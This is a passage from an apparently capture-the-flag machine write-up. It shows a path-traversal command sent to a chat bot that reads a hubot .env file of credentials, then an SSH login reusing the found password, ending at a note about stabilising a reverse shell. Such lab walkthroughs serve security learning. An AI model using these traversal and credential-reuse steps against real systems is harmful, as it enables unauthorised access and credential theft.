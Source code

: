 so i decide to get the **user.txt** but i got a response **Acess denied !**  so i decide to list the files and started to go one by one to see what i can get and in hubot i got a **.env** and when i open it i got a password for the admin

![image](https://user-images.githubusercontent.com/64952843/165170318-33ab9a5c-8797-4219-824c-0e2784025f62.png)

![image](https://user-images.githubusercontent.com/64952843/165169294-9ae40411-aec7-47a4-945f-1996c4ee460e.png)

#### code-env
```shell
recyclops file ../hubot/.env
```


```shell
 <!=====Contents of file ../hubot/.env=====>
<!=====Contents of file ../hubot/.env=====>
export ROCKETCHAT_URL='http://127.0.0.1:48320'
export ROCKETCHAT_USER=recyclops
export ROCKETCHAT_PASSWORD=
export ROCKETCHAT_USESSL=false
export RESPOND_TO_DM=true
export RESPOND_TO_EDITED=true
export PORT=8000
export BIND_ADDRESS=127.0.0.1
export ROCKETCHAT_URL='http://127.0.0.1:48320'
export ROCKETCHAT_USER=recyclops
export ROCKETCHAT_PASSWORD=
export ROCKETCHAT_USESSL=false
export RESPOND_TO_DM=true
export RESPOND_TO_EDITED=true
export PORT=8000
export BIND_ADDRESS=127.0.0.1
<!=====End of file ../hubot/.env=====>
<!=====End of file ../hubot/.env=====>
```

so i since i have the password and i now who was the admin  who is `dwight`so i decided to ssh to get the injection 

#### code-ssh
```shell
sudo ssh dwight@10.10.11.143
```

successful code injection and i got the shell 

![image](https://user-images.githubusercontent.com/64952843/165169967-e681915c-6f21-4272-8364-661640261d7e.png)


## Takeover
 After geting the  shell we have to do some adjusment to our reverse shell to make it ready for using by doing a stty escalation to get an interactive shell:
 